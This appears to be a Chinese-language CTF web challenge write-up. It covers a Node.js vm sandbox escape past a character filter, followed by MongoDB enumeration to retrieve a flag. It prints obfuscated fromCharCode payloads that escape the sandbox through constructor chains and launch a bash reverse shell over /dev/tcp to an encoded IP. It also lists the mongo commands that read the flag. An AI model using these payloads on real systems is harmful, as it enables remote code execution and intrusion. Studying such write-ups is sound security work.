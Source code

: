 # Web

## Esc4pe_T0_Mong0

`node代码审计，constructor沙箱逃逸，绕过waf，反弹shell，mongodb`

```javascript
Source Code:
//const { MongoClient } = require("mongodb");
//const client = new MongoClient("mongodb://localhost:27017/");

const vm = require('vm');

const express = require("express");
const bodyParser = require('body-parser');
const app = express();

const isValidCode = (code) => {
    const isLengthValid = code.length < 365;
    const isASCII = /^[\x20-\x7e]+$/.test(code);
    const containsInvalidChars = /[.\[\]{}\s;`'"/\\_<>?:]/.test(code);
    const doesNotContainImport = !code.toLowerCase().includes("import");
    const doesNotContainUnescape = !/%(?:d0|d1|%[89abAB][0-9a-fA-F])/.test(code);

    return (
      isLengthValid &&
      isASCII &&
      !containsInvalidChars &&
      doesNotContainImport &&
      doesNotContainUnescape
    );
};

app.use(bodyParser.json());

app.get('/', function (req, res) {
    res.sendFile( __dirname + "/static/index.html" );
});

app.get('/readfile', function (req, res) {
    res.sendFile( __dirname + "/app.js" );
});

app.get('/exec', (req, res) => {
    const code = req.query.code;
    if (!code) {
        res.status(400).json({ error: 'Code is required.' });
        return;
    }

    if (isValidCode(code)) {
        try {
            const sandbox = {};
            const script = new vm.Script(code);
            const result = script.runInNewContext(sandbox);
            res.json({ result });
        } catch (err) {
            res.status(400).json({ error: err.message });
        }
    } else {
        res.status(400).json({ error: 'you cant bypass my vm best waf!' });
        return;
    }
});

//app.get('/getflag', function (req, res) {
//    todo...
//});

app.listen(3000, () => console.log(`nodeapp listening on http://localhost:3000`));
```

审计源码，有长度限制和非法字符过滤，最后利用`runInNewContext`执行

**反弹shell payload**

**Node RCE方式**：*获取process对象后，用require导入child_process，再利用child_process执行命令，process挂载在global上*

`fromCharCode`减少payload长度，利用 `this.constructor.constructor` 进行沙箱逃逸，利用`with`绕过对`.`的过滤

```javascript
with(String)with(f=fromCharCode,this)with(constructor)with(constructor(f(r=114,e=101,t=116,117,r,110,32,p=112,r,111,c=99,e,s=115,s))())with(mainModule)with(require(f(c,h=104,105,108,100,95,p,r,111,c,e,s,s)))exec(f(98,97,s,h,32,45,c,32,34,98,97,s,h,32,45,105,32,62,38,32,47,100,e,118,47,t,c,p,47,X,X,46,X,X,X,46,X,X,46,X,X,X,47,X,X,X,X,32,48,62,38,b,34))
```

`with(String)`: 创建一个作用域，可直接引用 JavaScript 内置的 String 对象的方法和属性。

`String.fromCharCode`把指定的 Unicode值转换成字符串，使用数字代替字符payload长度会更短，`节省空间/代码混淆`

定义函数f`f=fromCharCode`

`with(constructor('return process')`: 调用 `fromCharCode` 方法生成了一串字符，并将其作为参数传递给 `constructor`，创建了一个新的对象。

`with(mainModule)`: `mainModule` 对象引入作用域，是一个特殊对象，代表当前运行的主模块

`with(require('child_process'))`:  引入模块`child_process`

`exec(bash -c "bash -i >& /dev/tcp/x.x.x.x/port 0>&b")`：`0>&b` 防止与其他正在运行的命令产生冲突

将`/ip/port`部分进行`ascii 10进制编码`后，连接服务器端口ssh

payload中`0>&1`要根据混淆的表达定义进行重构，比如此处`ord(1)=49即为a`

```javascript
with(String)with(f=fromCharCode,this)with(constructor)with(constructor(f(r=114,e=101,t=116,117,r,110,32,p=112,r,111,c=99,e,s=115,s))())with(mainModule)with(require(f(c,h=104,105,108,100,95,p,r,111,c,e,s,s)))exec(f(98,97,s,h,32,45,c,32,34,98,97,s,h,32,45,105,32,62,38,32,47,100,e,118,47,t,c,p,47,56,46,a=49,51,54,46,a,50,54,46,a,55,a,47,a,48,32,48,62,38,a,34))
```

以MongoDB为突破口，查看信息

`mongo`连接 MongoDB 数据库服务器，执行操作

`show databases`列出当前 MongoDB 服务器上所有的数据库

`use secret`告诉 MongoDB 客户端要使用的数据库是 "secret"

`show tables / show collections` 列出当前数据库中的所有集合

`db.flag.find()`在 "flag" 集合中查找所有文档

找到`flag{df184567-15cd-4876-b283-256ccc9161de}`